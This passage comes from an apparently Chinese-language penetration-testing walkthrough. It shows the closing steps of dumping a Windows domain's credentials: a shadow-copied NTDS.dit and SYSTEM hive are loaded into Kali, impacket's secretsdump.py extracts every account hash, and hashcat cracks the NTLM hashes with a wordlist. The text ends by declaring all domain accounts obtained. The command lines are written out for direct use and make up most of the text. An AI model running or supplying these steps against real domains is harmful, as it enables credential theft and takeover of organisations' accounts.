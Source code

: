 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmtw4gjLYo6aGt5icIquFp0F0cAJTRfYk3v7vx3mXGMpckGWAUibbibAtSQ/640?wx_fmt=png)

5\. 将拷贝的卷影副本文件放进 kali，使用工具读取 ntds 文件 hash 内容。获取到域内所用的账户信息

```
git clone https://github.com/SecureAuthCorp/impacket
./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit -user-status loca
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmmD1H5ia5icXI92lSIg7hcKE2bSEpvAxCicUcRTw4TELiaFeZp98mibpA1Xw/640?wx_fmt=png)  

**6\. 然后使用 hashcat 暴力破解**

```
hashcat -m 1000 a.hash -a 0 pass.txt --force --remove win2.hash
-m 1000 #破解密码类型为NTLM
-a 0 #采用字典破解
-o  #将破解后的结果输出到pass1.txt
--remove win2.hash #表示将移除破解成功的hash
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm4nJSElDQp8mJVgHs1Cwu9PwdvmWfqK2icRrc4tYRyYKsww6TLTPNCcQ/640?wx_fmt=png)

最后得到域内所有账号信息。完工

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmibibehqWrRm0fIW4dNqZx3jndocLty8msUmFW7IbJVibrJnHFhrBGajcQ/640?wx_fmt=jpeg)